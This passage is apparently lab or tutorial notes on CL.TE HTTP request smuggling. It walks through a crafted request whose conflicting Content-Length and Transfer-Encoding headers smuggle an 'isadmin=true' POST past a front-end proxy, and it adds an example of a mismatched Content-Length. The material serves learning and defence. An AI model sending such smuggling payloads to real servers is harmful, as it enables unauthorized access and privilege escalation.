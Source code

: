 - The proxy uses the Content-Length header to determine the end of a request.
- The back-end server uses the Transfer-Encoding header.

Because of this discrepancy, it's possible to craft ambiguous requests that are interpreted differently by each server.

#### Exploiting CL.TE for Request Smuggling

To exploit the CL.TE technique, an attacker crafts a request that includes both headers, ensuring that the front-end and back-end servers interpret the request boundaries differently. For example, an attacker sends a request like:

```
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```

- the front-end server sees the `Content-Length` of 130 bytes and believes the request ends after  `isadmin=true`
- the back-end server sees the `Transfer-Encoding: chunked` and interprets the `0` as the end of a chunk, making the second request the start of a new chunk.
- <span style="color:#a0f958">This can lead to the back-end server treating the</span> `POST /update HTTP/1.1` <span style="color:#a0f958">as a separate, new request, potentially giving the attacker unauthorized access</span>.


#### Incorrect Content-Length

When creating a request smuggling payload, if the `Content-Length` is not equal to the actual length of the content, several problems might arise. 
- the server might process only the portion of the request body that matches the `Content-Length`. This could result in the smuggled part of the request being ignored or not processed as intended. 
- For example, in the below screenshot, the original size of the body is 24 bytes.

```
Request                               Response
------------------------------------|----------------------
POST /contact.php HTTP/1.1          | HTTP/1.1 200 OK
Host: httprequestsmuggling.thm      | Server: ATS/7.1.1
Content-Length: 24                  | Content-Length: 26
Cache-Control: max-age=0            | ...
...

username=test&query=test            | Your query has been saved
```
